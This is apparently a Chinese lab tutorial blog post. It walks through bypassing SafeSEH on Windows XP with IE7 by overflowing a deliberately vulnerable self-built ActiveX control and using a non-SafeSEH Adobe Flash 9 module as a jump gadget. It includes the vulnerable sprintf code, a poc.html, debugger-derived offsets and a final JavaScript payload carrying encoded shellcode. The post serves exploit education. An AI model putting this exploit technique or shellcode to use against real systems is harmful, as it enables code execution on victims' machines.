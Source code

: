 ```yaml
---
layout:		post
title:		利用Adobe Flash Player ActiveX控件绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7
>控件版本: Adobe Flash ActiveX 9.0.124
<!-- more -->


### 0x00 前期准备

新建一个MFC ActiveX控件, 添加一个test方法

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x00.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x01.png)

在test方法实现里添加代码

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x02.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x03.png)

```
#include <string.h>
#include <windows.h>

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("aaaa");//定位该函数的标记
	char dest[100];
	sprintf(dest,"%s",str);	
	int zero=0;
	__try
	{
	    zero=1/zero;
	}
	__except(MyException())
	{
	}
}
```

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x04.png)

如图设置好项目属性, 选择release版本, 禁用优化, 编译链接, 最后在cmd键入"Regsvr32 /path/to/activex.ocx"注册控件

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 45) {
s += "\u9090";
}
test.test(s);  
</script>  
</body>  
</html>
```

新建一个txt文本, 帖入以上代码, 更名为poc.html

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x05.png)

注意这里的"clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5", 在ActiveX工程里找到


### 0x01 分析栈布局

双击poc.html自动调用IE浏览器打开, 选择允许ActiveX控件

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x06.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x07.png)

来到这里, 用OllyDbg附加上去

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x08.png)

断下后选"E"找到VulnerAX_SEH.ocx, 点进去, 在printf("aaaa")下断运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x09.png)

断下后来到call sprintf, 跟随栈地址, 再往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0a.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0b.png)

可以看到数据已经copy到栈上, 起始地址0x01dcf4e4

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

View->SEH chain, 定位到最近的SE Handler 0x01dcf560, 0x01dcf55c-0x01dcf4e4=124 byte

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

Plugins->OllyFindAddr->Overflow return address->Find CALL/JMP [EBP+N], 选择"L", 找到0x300b2d1c这个跳板

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0d.png)

修改poc.html

```
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u9090\u9090";
s+="\u2D1C\u300B";
```

再次打开, OD附加上去, 来到call sprintf再走一步, 现在SE Handler已经覆盖成跳板地址

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0e.png)

先在0x300b2d1c下断, 来到这里Shift+F9运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0f.png)

断下后跟进call, 可以看到这时回到了S.E.H结构

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x10.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x11.png)


### 0x02 exploit

SE Handler的跳板地址会干扰shellcode, 将shellcode整体放到下面, 用一个短跳跳过去

```
// junk(120 byte)+jmp short(2 byte)+junk(2 byte)+board(4 byte)+junk(8 byte)+payload(114 byte)
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u0EEB\u9090";		# 0xEB0E->jmp +14(相对于下一条指令地址+14 byte)
s+="\u2D1C\u300B";		# 跳板
s+="\u9090\u9090\u9090\u9090";		# junk
s+="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);
```

如上组织250 byte的shellcode, OD再次附加上去, 来到call sprintf往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x12.png)

F9直接运行, pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x13.png)
